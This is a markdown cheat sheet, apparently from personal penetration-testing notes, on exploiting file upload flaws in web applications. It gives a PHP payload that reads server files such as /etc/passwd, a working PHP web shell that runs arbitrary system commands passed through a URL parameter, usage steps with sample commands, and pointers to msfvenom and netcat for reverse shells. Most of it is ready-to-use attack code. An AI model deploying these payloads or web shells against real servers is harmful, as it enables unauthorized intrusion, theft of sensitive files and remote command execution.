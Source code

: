 # File Upload Vulnerability Exploitation Cheat Sheet

## PHP Payloads for File Upload Exploitation
### 1. File Read Exploit

Used to read the contents of a file on the server. If the server executes uploaded PHP files, an attacker can upload this script and then access it through a browser to read sensitive files.

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

**Use case:**
- Reading sensitive files on the system such as `/etc/passwd`, application configuration files, or any custom path like `/home/carlos/secret`.

**Execution:**
- Upload the script to the web server.
- Navigate to the uploaded file in the browser (e.g., `http://example.com/uploads/shell.php`) to view the file contents.

### 2. Remote Command Execution (RCE) Shell

This PHP script allows the execution of arbitrary system commands by passing them as a query string parameter in the URL.

```php
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```

**Use case:**
- Provides a web shell interface for remote command execution on the compromised server.

**Execution:**
1. Upload the script to the vulnerable web application.
2. Access the script in a browser and append the command using the `cmd` parameter:
   ```
   http://example.com/uploads/shell.php?cmd=whoami
   ```
3. Replace `whoami` with any system command (e.g., `ls`, `id`, `cat /etc/passwd`).

**Note:** This method requires the web server to execute PHP files and not sanitize or restrict uploaded content.

---
## Crafting Payloads for Reverse Shells
To craft payloads for a remote shell to connect back to our attacking device, we can refer to [Metasploit – Msfvenom](./Tools%20&%20Commands/Metasploit/msfvenom.md) to craft our payloads.

Once we create our payload with [Metasploit – Msfvenom](./Tools%20&%20Commands/Metasploit/msfvenom.md) and upload it to the server, we can start a remote listener either with [Netcat & Socat](./Tools%20&%20Commands/Netcat/netcat%20socat.md) or by using Metasploits handler at [Metasploit – Msfvenom](./Tools%20&%20Commands/Metasploit/msfvenom.md).    
